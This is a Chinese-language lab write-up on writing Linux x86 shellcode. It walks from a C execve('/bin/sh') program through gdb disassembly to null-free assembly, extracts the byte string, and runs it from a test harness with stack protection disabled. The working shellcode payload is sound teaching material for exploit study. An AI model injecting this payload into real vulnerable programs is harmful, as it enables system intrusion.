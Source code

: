 # <center>shellcode编写实验</center>

## 实验概述

### 【目的】
编写Linux环境下的shellcode。
### 【环境】
Linux
### 【工具】
gdb
### 【原理】
shellcode是一段机器指令，用于在溢出之后改变系统的正常流程，转而执行shellcode从而入侵目标系统。
shellcode基本的编写方式：
- 编写c程序实现功能
- 使用汇编来替代函数调用等
- 汇编编译链接，获取机器码
## 实验步骤

### 【步骤】
这里使用c语言来进行编写。
```
#include<stdio.h>
int main()
{
    char *name[2];
    name[0]="/bin/sh";
    name[1]=NULL;
    execve(name[0],name,NULL);
}
```
其中execve进行系统调用，通过name[0]提供的参数"/bin/sh"起一个shell。
execve（参数1，参数2，参数3）
参数1：命令所在路径
参数2：命令的集合
参数3：传递给执行文件的环境变量集
 
尝试编译运行。
```
$ gcc shell.c -o shell
$ ./shell
$ echo u got it
u got it
```
用gdb查看
```
$ gdb shell -q
pwndbg: loaded 164 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from shell...(no debugging symbols found)...done.
pwndbg> disass main
Dump of assembler code for function main:
   0x0000000000400596 <+0>:	push   rbp
   0x0000000000400597 <+1>:	mov    rbp,rsp
   0x000000000040059a <+4>:	sub    rsp,0x20
   0x000000000040059e <+8>:	mov    rax,QWORD PTR fs:0x28
   0x00000000004005a7 <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004005ab <+21>:	xor    eax,eax
   0x00000000004005ad <+23>:	mov    QWORD PTR [rbp-0x20],0x400674
   0x00000000004005b5 <+31>:	mov    QWORD PTR [rbp-0x18],0x0
   0x00000000004005bd <+39>:	mov    rax,QWORD PTR [rbp-0x20]
   0x00000000004005c1 <+43>:	lea    rcx,[rbp-0x20]
   0x00000000004005c5 <+47>:	mov    edx,0x0
   0x00000000004005ca <+52>:	mov    rsi,rcx
   0x00000000004005cd <+55>:	mov    rdi,rax
   0x00000000004005d0 <+58>:	call   0x400480 <execve@plt>
   0x00000000004005d5 <+63>:	mov    eax,0x0
   0x00000000004005da <+68>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004005de <+72>:	xor    rdx,QWORD PTR fs:0x28
   0x00000000004005e7 <+81>:	je     0x4005ee <main+88>
   0x00000000004005e9 <+83>:	call   0x400460 <__stack_chk_fail@plt>
   0x00000000004005ee <+88>:	leave  
   0x00000000004005ef <+89>:	ret    
End of assembler dump.
pwndbg> 
```
其中关键点在
```
0x00000000004005c5 <+47>:	mov    edx,0x0
0x00000000004005ca <+52>:	mov    rsi,rcx
0x00000000004005cd <+55>:	mov    rdi,rax
0x00000000004005d0 <+58>:	call   0x400480 <execve@plt>
```
传递了三个参数并且call execve()。
直接使用这四条指令显然是不行的，shellcode需要能够独立运行并且尽量短小，这里的`call   0x400480 <execve@plt>`依赖plt表，前面的参数传递也依赖程序的数据段等，我们需要用汇编来重写这里的代码。
对于`call   0x400480 <execve@plt>`，我们可以用系统调用来重写，execve的调用号为：0xb，那么就有
```
mov al,0xb
int 0x80
```
这里的0x80是根据al的值进行系统调用。
为了传参方便，这里采用32位汇编的写法，把参数push到栈上就可以传递参数了。
先将"/bin/sh"压栈
```
xor eax,eax
push eax
push 0x68732f2f
push 0x6e69622f
```
注意这里用xor eax,eax把eax置0，不使用`mov eax,0`的原因是这样会出现`\x00`，shellcode会被gets()这类函数截断。
esp指向当前栈顶，此时即指向"/bin/sh",我们把esp保存到ebx
```
mov ebx,esp    
```
现在把两个参数压栈，eax为NULL(0)，ebx为"/bin/sh"的地址
```
push eax
push ebx
```
此时esp指向数组argv，把它赋值给ecx。
```
mov ecx,esp
xor edx,edx
mov al,0xb  
int 0x80       ;通过中断0x80进行系统调用
```
所以有完整的代码：
```
section .text
global _start
 
_start:
xor eax,eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
push eax
push ebx
mov ecx,esp
xor edx,edx
mov al,0xb
int 0x80
```
使用nasm编译，链接，运行
```
$ ld -o shell shell.o
$ ld -m elf_i386 -o shell shell.o
$ ./shell
$ echo u got it
u got it
```
成功了，使用objdump提取
```
$ objdump -d shell

shell:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c0                	xor    %eax,%eax
 8048062:	50                   	push   %eax
 8048063:	68 2f 2f 73 68       	push   $0x68732f2f
 8048068:	68 2f 62 69 6e       	push   $0x6e69622f
 804806d:	89 e3                	mov    %esp,%ebx
 804806f:	50                   	push   %eax
 8048070:	53                   	push   %ebx
 8048071:	89 e1                	mov    %esp,%ecx
 8048073:	31 d2                	xor    %edx,%edx
 8048075:	b0 0b                	mov    $0xb,%al
 8048077:	cd 80                	int    $0x80

```
这样就提取到了,下面可以写个c程序验证一下。
```c
#include <stdio.h>
 
char shellcode[]="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";
 
int main()
{
    void (*fp) (void);
    fp=(void *)shellcode;
    fp();
}
```
```
$ gcc auth.c -fno-stack-protector -o auth -z execstack -m32
$ ./auht
$ echo u got it
u got it

```
### 【总结】

本次实验主要练习了linux下shellcode的编写。